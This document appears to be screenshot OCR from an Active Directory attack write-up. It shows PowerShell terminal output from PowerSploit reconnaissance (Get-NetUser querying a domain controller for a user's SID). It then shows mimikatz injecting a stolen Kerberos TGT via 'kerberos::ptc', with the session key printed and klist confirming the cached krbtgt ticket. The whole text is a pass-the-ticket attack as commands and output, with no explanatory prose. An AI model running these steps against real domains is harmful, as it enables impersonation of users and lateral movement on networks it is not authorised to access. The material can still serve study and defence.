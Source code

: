 ``` text
msds-revealeddsas      : {CN=SRV028,OU=Domain Controllers,DC=domain,DC=local, CN=S
                         RV028,OU=Domain Controllers,DC=domain,DC=local, CN=SRV028
                         ,OU=Domain Controllers,DC=domain,DC=local, CN=SRV028,OU=D
                         omain Controllers,DC=domain,DC=local...}
accountexpires         : 9223372036854775807



PS C:\Users\user\Downloads\PowerSploit\Recon> Get-NetUser -UserName jdupond -Domain domain.local -DomainController 192.168.1.1 | Select-Object -Property objectsid

objectsid
---------
S-1-5-21-1862828983-1608356927-24761

```

``` text
PS C:\Users\user\Downloads\tgt> ..\mimikatz_trunk\x64\mimikatz.exe "kerberos::ptc TGT_jdupond@domain.local.ccache" exit

  .#####.   mimikatz 2.1.1 (x64) built on Dec 20 2017 00:18:01
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(commandline) # kerberos::ptc TGT_jdupond@domain.local.ccache

Principal : (01) : jdupond ; @ domain.local

Data 0
           Start/End/MaxRenew: 24/01/2018 18:26:00 ; 25/01/2018 04:26:00 ; 31/01/2018 18:26:00
           Service Name (01) : krbtgt ; domain.local ; @ domain.local
           Target Name  (01) : krbtgt ; domain.local ; @ domain.local
           Client Name  (01) : jdupond ; @ domain.local
           Flags 50a00000    : pre_authent ; renewable ; proxiable ; forwardable ;
           Session Key       : 0x00000017 - rc4_hmac_nt             070ea7d2c59721b48937ce92ab2b87c5
           Ticket            : 0x00000000 - null              ; kvno = 2
[...]
           * Injecting ticket : OK

mimikatz(commandline) # exit
Bye!


PS C:\Users\user\Downloads\tgt> klist.exe

LogonId est 0:0x897d99

Tickets mis en cache : (1)

#0>     Client : jdupond @ domain.local
        Serveur : krbtgt/domain.local @ domain.local
        Type de chiffrement KerbTicket : RSADSI RC4-HMAC(NT)
        Indicateurs de tickets 0x50a00000 -> forwardable proxiable renewable pre_authent
        Heure de démarrage : 1/24/2018 18:26:00 (Local)
        Heure de fin :   1/25/2018 4:26:00 (Local)
        Heure de renouvellement : 1/31/2018 18:26:00 (Local)
        Type de clé de session : RSADSI RC4-HMAC(NT)


```